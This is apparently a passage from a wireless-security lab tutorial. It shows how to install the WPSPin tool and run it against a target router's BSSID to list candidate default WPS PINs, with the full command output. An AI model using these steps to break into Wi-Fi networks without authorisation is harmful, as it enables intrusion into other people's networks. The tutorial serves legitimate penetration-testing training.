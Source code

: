 ### Using Python WPSPin to Generate Default PINs

The [WPSPin](https://github.com/drygdryg/wpspin) tool is a powerful tool that includes many different PIN generation algorithms. This tool allows us to once again provide the BSSID of our target network and receive a list of possible default PINs.

To begin, we can install the tool from the source.

```shell
git clone https://github.com/drygdryg/wpspin.git

Cloning into 'wpspin'...
remote: Enumerating objects: 44, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 44 (delta 0), reused 2 (delta 0), pack-reused 40
Receiving objects: 100% (44/44), 21.46 KiB | 499.00 KiB/s, done.
Resolving deltas: 100% (10/10), done.

```

Then, we navigate into the tool's cloned directory and run the setup script to install WPSPin.

```shell
cd wpspin
sudo python setup.py install

```

Note: `WPSPin` is already installed in the lab.

Once WPSPin is installed, we can employ the following command to generate possible default PINs. We specify our `BSSID` and `-A` to generate any and all possible PINs.

```shell
wpspin -A 60:38:E0:A2:3D:2A

Found 49 PIN(s)
PIN        Name
73834410   44-bit PIN
94229882   Static PIN — H108L
73834410   40-bit PIN
06490959   Reverse bits 32-bit
11184812   24-bit PIN
63311501   Reverse nibble 32-bit
11184812   28-bit PIN
36499373   48-bit PIN
63313604   Reverse byte 32-bit
99956042   Static PIN — Onlime
95661469   Static PIN — Realtek 1
89478486   Reverse bits 24-bit
11184812   Reverse nibble 24-bit
           Empty PIN
11184812   Reverse byte 24-bit
95755212   Static PIN — CBN ONO
20854836   Static PIN — Upvel
20144326   Airocon Realtek
33946153   D-Link PIN +1
13142452   ASUS PIN
74163052   OUI ^ NIC
51875350   OUI − NIC
43977680   Static PIN — UR-814AC
56587340   Inv NIC to PIN
95719115   Static PIN — Realtek 2
48563710   Static PIN — Realtek 3
92148659   32-bit PIN
05294176   Static PIN — UR-825AC
```
